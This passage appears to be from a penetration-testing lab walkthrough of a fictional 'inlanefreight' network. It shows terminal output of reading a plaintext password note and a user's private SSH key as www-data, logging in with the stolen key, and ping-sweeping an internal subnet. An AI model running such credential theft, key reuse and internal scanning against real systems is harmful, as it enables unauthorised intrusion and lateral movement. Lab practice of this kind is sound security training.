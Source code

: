 ```
www-data@inlanefreight.local:…/www/html# cat /home/webadmin/for-admin-eyes-only

# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of :
Plain Human work! 📌
```

```yaml
credentials:
    username: mlefay
    password: 'Plain Human work!'
    host: 10.129.229.129
    port: 3389 (RDP)
```

```
www-data@inlanefreight.local:…/www/html# cat /home/webadmin/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvm9BTps6LPw35+tXeFAw/WIB/ksNIvt5iN7WURdfFlcp+T3fBKZD
HaOQ1hl1+w/MnF+sO/K4DG6xdX+prGbTr/WLOoELCu+JneUZ3X8ajU/TWB3crYcniFUTgS

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i id_rsa webadmin@10.129.229.129

Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

[SNIP]

webadmin@inlanefreight:~$ 
```

#### Internal Information Gathering - Network Enumeration

```
webadmin@inlanefreight:~$ ifconfig | grep inet

        inet 10.129.229.129  netmask 255.255.0.0  broadcast 10.129.255.255
        inet 172.16.5.15  netmask 255.255.0.0  broadcast 172.16.255.255
```

```
webadmin@inlanefreight:~$ for i in $(seq 1 254); do (ping -c 1 172.16.5.$i | grep "bytes from" &); done

64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.412 ms 📌
```
